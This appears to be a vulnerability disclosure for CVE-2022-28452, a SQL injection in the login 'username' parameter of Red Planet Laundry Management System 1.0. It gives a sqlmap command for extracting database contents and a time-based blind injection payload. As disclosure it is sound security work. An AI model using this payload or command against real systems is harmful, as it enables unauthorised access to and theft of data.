 # Red-Planet-Laundry-Management-System-1.0-is-vulnerable-to-SQL       

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28452
https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28452
https://laundry.redplanetcomputers.com/

1-Description:

Red Planet Laundry Management System 1.0 is vulnerable to SQL Injection via parameter 'username' in /index.php/login/rediract . Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latent vulnerabilities in the underlying database.

2-Proof of Concept:

In Burpsuite intercept the request from the affected page with 'username' parameter and save it like poc.txt Then run SQLmap to extract the data from the database:
sqlmap.py -r poc.txt --dbms=mysql

3-Example payload:

URL encoded POST input username was set to 0'XOR(if(now()=sysdate(),sleep(4),0))XOR'Z












Contact details:   yavuzsahbaz@gmail.com
